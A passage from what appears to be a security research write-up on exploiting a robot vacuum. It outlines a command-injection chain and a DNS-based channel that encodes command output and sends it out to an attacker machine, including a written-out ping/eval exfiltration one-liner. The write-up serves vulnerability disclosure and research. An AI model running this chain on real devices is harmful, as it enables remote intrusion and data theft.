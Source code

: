 1. I created a `replace()` function which sets `$IFS` to the bad character we wish to eliminate, then loops over the string. It concatenates all iterations together and between them it inserts “x” plus the hexadecimal value of the bad character. For example,  “!” is replaced with “x21”.
2. The script manually calls this function for each non-alphanumeric character in ASCII, plus “x” itself (since that is now a special character).

**Segmenting the message into 63-character blocks:**

The script has a `segment()` function which works in the following way:

1. Loops through a list of printable characters and assign the current character to `$char`
2. Set `$IFS` to `$char`, and loop over the remaining payload which we need to send.
3. If some combination of the segments of the string split by `$char` is between 42 and 62 characters long, then we choose this as the data to send. Then we remove it from the payload by replacing the payload with the concatenation of remaining segments.
4. Prepend an index number to the block followed by a period, so that it can be reassembled in proper order.

## Putting It All Together

The exploitation process looks like this:

1. Establish blind command execution via the syslog method described above.
2. Either wait for  the robot to update the time from the NTP server or reboot it, thereby initiating the syslog polling.
3. Use the command execution to set the attacker machine as a DNS server.
4. Use the command execution to upload the custom DNS encoding shell script to `/tmp` via a series of `echo` commands.
5. Send commands wrapped in “ %%%%% “ via POST requests to any endpoint. If output is desired, commands should be of the form `for line in $([DESIRED COMMAND HERE] 2>&1 | ksh /tmp/encode.ksh);do eval 'ping -c 1 $line&';done`. This encodes the command output via the encoding script described above, then passes each segment to `ping` so that it will be sent as a DNS request to the attacker machine.
6. Receive the DNS requests on the attacker machine, reassemble and decode them to read the output of the command.

A proof of concept Python script which automates this process can be found on [GitHub](https://github.com/jkielpinski/vacuum-sec/).

## Conclusion

Thanks for reading, that concludes the two-part series. I hope it gave you some ideas for vulnerability hunting and exploitation of similar devices.
